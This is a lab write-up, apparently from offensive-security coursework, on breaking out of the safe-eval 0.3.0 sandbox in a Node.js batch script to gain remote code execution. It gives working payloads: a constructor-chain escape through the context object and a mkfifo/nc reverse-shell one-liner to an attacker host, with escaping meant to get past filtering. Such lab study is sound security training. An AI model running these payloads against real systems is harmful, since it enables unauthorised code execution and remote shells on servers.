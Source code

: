 # Extra Mile

In the extra mile, there are some small differences in the batch.js file. The main difference is that in the modified version, instead of using the `eval` function, the script instead imports the library `safe-eval` and uses it instead. The `safe-eval` library allows developers to execute JS code without having to use the discouraged eval function. However, prior to the version 3.0.0, the library is still vulnerable to sandbox breakout. 

![Untitled](Extra%20Mile%200f19735481bf4c7a995f034feb854866/Untitled.png)

Looking inside the `package.json` file within the `node_modules` directory, we find that the version of safe eval is 0.3.0. As such, it is vulnerable to breakout. 

![Untitled](Extra%20Mile%200f19735481bf4c7a995f034feb854866/Untitled%201.png)

Unlike the normal eval function, safe-eval prohibits the functionality of keywords like require. Safe-eval has access to all the standard APIs of the V8 JavaScript Engine, but by default, it does not have access to NodeJS API and needs to be given access using a **context object.** As such, when we try to use a common payload, we get the error message that the function `child_process` is unavailable. Source: https://github.com/hacksparrow/safe-eval

```json
code = "this.constructor.constructor('return child_process')().exec('ping -c 4 192.168.45.234')"
context = {parts: {}}
safeEval(code,context)
```

However, while the default `this`variable lacks access to the standard APIs, this restriction does not hold true for the **context** variable. As such, if we capitalize on one of the attributes in the context variable (i.e. parts), we will be able to access the NodeJS APIs and hence the `child_process` functionality. As such, we will gain RCE and receive a response on our local TCPdump. 

```json
code = "parts.constructor.constructor('return child_process')().exec('ping -c 4 192.168.45.234')"
context = {parts: {}}
safeEval(code,context)
```

When we run the entire shellcode, we find that the objects don’t have the child_process attribute and thus we use the process attribute as an intermediary. Source: [STACK the Flags 2020 - Hold the Line! Perimeter Defences Doing It's Work! Cloud Challenge · Creastery](https://www.creastery.com/blog/stack-the-flags-2020-hold-the-line-perimeter-defences-doing-its-work-cloud-challenge/)

```json
shell_cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.45.234 9001 >/tmp/f"
cmd = f"parts.constructor.constructor('return process')().mainModule.require('child_process').exec(\'{shell_cmd}\')"
cmd = cmd.replace("/", "\\\\x2f")
# Put 2 \\ so that it can be resolved twice by Python, once here and once in request
```